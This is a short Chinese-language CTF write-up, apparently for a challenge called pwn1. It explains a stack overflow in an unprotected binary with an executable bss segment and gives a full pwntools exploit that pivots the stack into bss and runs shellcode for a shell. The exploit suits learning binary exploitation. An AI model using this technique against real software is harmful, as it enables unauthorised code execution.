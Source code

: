 # maybe a little hard

没开保护， 所以使用可以直接调用所有函数嘻嘻。发现bss段可读可写可执行，vul函数中有溢出漏洞，可以写入大于0x100的数导致栈溢出

![gTvaB4.png](https://z3.ax1x.com/2021/05/20/gTvaB4.png)

~~~
from pwn import *
context(log_level = 'debug', arch = 'amd64')
p = process("./pwn1")

e = ELF("./pwn1")

vul = 0x400691
buf = e.bss()+0x500 # 随便开一个bss段上保证空白的地址就行

log.info('buf' + hex(buf))
shellcode = asm(shellcraft.sh()) # 自动写shellcode，建议大家手动写一下

p.recvuntil('1nter3sting.\n')
payload = b'a'*0x100 + p64(buf+0x100) + p64(vul) 
# rbp被改成了bss端口，返回值修改为vul函数，使得重新开启的栈在bss段，这也是要+0x100的原因，方便之后的shellcode执行

p.send(payload)

payload = shellcode
payload = payload.ljust(0x108, b'\x00') +p64(buf) 
# 在bss段写入shellcode并溢出覆盖rbp 返回值为buf执行shellcode

print(hex(len(payload)))
p.sendline(payload)
p.interactive()
~~~

